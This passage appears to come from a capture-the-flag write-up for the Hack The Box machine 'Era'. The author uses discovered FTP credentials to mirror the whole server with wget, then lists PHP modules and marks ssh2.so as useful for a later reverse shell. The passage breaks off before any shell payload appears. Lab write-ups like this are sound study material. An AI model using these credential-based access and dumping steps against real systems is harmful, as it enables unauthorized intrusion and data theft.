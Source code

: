 ![login successful](image-9.png)

### Get reverse shell using vulnerable code in download.php

I simply dumped the whole ftp server files using `wget`:
```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ wget -m ftp://yuri:mustang@$target:21/
```

we can see inside `php8.1_conf` that it has the `ssh2.so` module, it will be very helpful later on.
```bash
┌──(agonen㉿kali)-[~/htb/Era/10.10.11.79]
└─$ ls php8.1_conf   
build        dom.so   fileinfo.so  iconv.so    pdo_sqlite.so  readline.so   sockets.so  sysvmsg.so  tokenizer.so  xmlwriter.so
calendar.so  exif.so  ftp.so       opcache.so  phar.so        shmop.so      sqlite3.so  sysvsem.so  xmlreader.so  xsl.so
ctype.so     ffi.so   gettext.so   pdo.so      posix.so       simplexml.so  ssh2.so     sysvshm.so  xml.so        zip.so
```
